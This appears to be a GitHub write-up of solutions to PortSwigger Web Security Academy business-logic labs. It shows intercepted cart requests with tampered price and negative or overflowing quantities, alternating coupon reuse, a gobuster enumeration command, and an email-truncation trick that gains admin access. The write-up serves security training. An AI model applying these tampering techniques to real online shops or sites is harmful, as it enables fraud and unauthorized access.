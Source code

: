# Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose cheep product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>










<details>
  <summary>Lab: Inconsistent security controls</summary>

1. after doing enumration

```
gobuster dir -u https://0a4800b704e8549d827179ca0018004d.web-security-academy.net -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt 
```
![image](https://github.com/user-attachments/assets/25a10fc0-e937-49c5-9888-c7c06a2ce3b5)

2. try to navigate ``/amdin`` found

![image](https://github.com/user-attachments/assets/ae0455f2-bc54-4b03-ada3-65bfddb111bf)

```
Admin interface only available if logged in as a DontWannaCry user 
```

3. when rigester found this note

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

4. after rigester change ``email`` to ``anyname@dontwannacry.com``

![image](https://github.com/user-attachments/assets/e42e3404-ed42-4b35-b3f6-00c66de07a09)
  
6. now you have acccess to ``/admin``
7. delete ``carlos``

  
</details>








<details>
  <summary>Lab: Flawed enforcement of business rules</summary>


1. login using ``wiener:peter``
2. noties that there is coupon code

![image](https://github.com/user-attachments/assets/33b61cbd-4518-483e-aa65-708598452798)

```
NEWCUST5
```

3. At the bottom of the page, sign up to the newsletter. You receive another coupon code, ``SIGNUP30``.
> ### 4. try applying the codes more than once. Notice that if you enter the same code twice in a row, it is rejected because the coupon has already been applied. However, if you alternate between the two codes, you can bypass this control. 

![image](https://github.com/user-attachments/assets/e559ab83-5443-4e58-a997-690205f73749)

5. click ``place order``


  
</details>














<details>
  <summary>Lab: Low-level logic flaw</summary>


1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request
4. if you add a larg number of `quantity` the ``price`` will happend ``integer overflow`` and it will count from negtive

```http
POST /cart HTTP/2
Host: 0a4f008503c158c382ac42ea00130067.web-security-academy.net
Cookie: session=F1AyWAioFLqVDYMZxyMuY0MDZzrYqBcj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net
Referer: https://0a4f008503c158c382ac42ea00130067.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



productId=1&redir=PRODUCT&quantity=90
```

5. you need   ``2147483647 / 133700 = ~16061 `` jacked
6. you will send this request ``162`` time

```url
productId=1&redir=PRODUCT&quantity=99
```

![image](https://github.com/user-attachments/assets/aaf9f3d3-dd79-4038-9aec-f36de6ade157)

![image](https://github.com/user-attachments/assets/d7e834db-2b69-4c2b-b9a9-642b59ab67c3)

7. now try to buy cheep product more than one time until reach ``small positive`` price
8. now click ``place order``



  
</details>













<details>
  <summary>Lab: Inconsistent handling of exceptional input</summary>


* when ``rigester`` notice :

```http
If you work for DontWannaCry, please use your @dontwannacry.com email address
```

* rigester with any credintionals ``user : 123``
* if you try to navgate ``/admin``

  <img width="891" height="310" alt="image" src="https://github.com/user-attachments/assets/83a40260-124f-4337-ad9e-321ed8b07c98" />

```http
Admin interface only available if logged in as a DontWannaCry user 
```


- > now try to login with
  > ```
  > username: hack1
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string@exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

found the email cutted:

<img width="1247" height="312" alt="image" src="https://github.com/user-attachments/assets/5a6adc6b-c13c-45a0-960e-c5e91138487a" />


- > now try to login with
  > ```
  > username: hack2
  > email: very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-string-very-long-stringAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@dontwannacry.com.exploit-0a2800d2030d83c3813fb53a01b800e2.exploit-server.net
  > password: 123
  > ```

now the email end with ``@dontwannacry.com`` and ``admin panal`` tap appear

<img width="1349" height="365" alt="image" src="https://github.com/user-attachments/assets/18bee200-6ea4-4307-8f56-6bb90a39a8ad" />

<img width="1284" height="461" alt="image" src="https://github.com/user-attachments/assets/f7776dd8-d20f-4df4-96e8-63654fa402e2" />


  
</details>







<details>
  <summary>Lab: Weak isolation on dual-use endpoint</summary>




  
</details>










